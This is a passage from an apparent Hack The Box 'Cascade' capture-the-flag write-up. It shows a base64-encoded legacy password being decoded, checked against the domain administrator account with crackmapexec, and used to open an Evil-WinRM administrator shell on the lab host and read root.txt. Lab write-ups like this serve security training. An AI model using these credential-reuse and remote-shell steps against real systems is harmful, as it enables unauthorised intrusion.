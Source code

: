 
Immediately `cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz` jumps out. It decodes to
`baCT3r1aN00dles`:

    
    
    root@kali# echo YmFDVDNyMWFOMDBkbGVz | base64 -d
    baCT3r1aN00dles
    

### WinRM

This password works for the main administrator account:

    
    
    root@kali# crackmapexec winrm 10.10.10.182 -u administrator -p baCT3r1aN00dles
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\administrator:baCT3r1aN00dles (Pwn3d!)
    

I can get a WinRM session as administrator:

    
    
    root@kali# evil-winrm -u administrator -p baCT3r1aN00dles -i 10.10.10.182
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

And get `root.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
    5e9c87e9************************
    

[](/2020/07/25/htb-cascade.html)

